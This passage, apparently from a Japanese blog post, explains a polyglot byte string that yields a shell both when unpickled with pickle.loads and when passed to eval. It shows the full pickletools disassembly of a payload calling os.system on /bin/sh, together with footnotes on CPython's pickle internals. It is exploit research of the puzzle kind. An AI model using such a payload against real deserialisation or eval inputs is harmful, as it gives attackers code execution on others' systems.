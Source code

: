 ```python
pickle.loads(b4)  # shell 1
eval(b4)          # shell 2
```

ちなみに、`pickletools.dis`に放り込むとスタックを消費し尽くしてないとかいう理由でキレられる。`pickle_rce`変数の先頭を`qqU`から`qq0U`にすればメモに放り込んで用済みになったコマンド文字列をpopしてくれるので、それでちゃんと逆アセンブルされる。実際の結果は次の通り。

```text
    0: U    SHORT_BINSTRING '/bin/sh #XXXXXXXXXXXXXXXXXXXXXXXXX'
   36: q    BINPUT     113
   38: 0    POP
   39: U    SHORT_BINSTRING 'os'
   43: U    SHORT_BINSTRING 'system'
   51: q    BINPUT     194
   53: \x93 STACK_GLOBAL
   54: (    MARK
   55: h        BINGET     113
   57: t        TUPLE      (MARK at 54)
   58: R    REDUCE
   59: .    STOP
highest protocol among opcodes = 4
```

## (引き続き) 募集中

もうPickleはネタ切れ気味です。

- Pickleで変なことをやるネタ
- これより短いPolyglot
- これより面白いPolyglot

---

[^1]: POPが呼ばれた際にチェックを行う[_pickle.cの該当部分](https://github.com/python/cpython/blob/c91bdf86ef1cf9365b61a46aa2e51e5d1932b00a/Modules/_pickle.c#L529)。pickle.pyの方はスタックがリストなのでおそらくIndexErrorを吐く。

[^2]: 結果としてRCEという同一の「機能」のようなものを実現しているが、これに取り組み始めた最初は同一の「評価結果」を返すようなものから始めていたという背景に因る

[^3]: 厳密にはスタックをmetastackと呼ばれる領域に退避して新しいスタックを構成するような実装になっており、"push special markobject on stack"という説明とは異なる

[^4]: `or __import__...`にすると、先頭の文字列が`True`に評価されて肝心の後続が実行されない
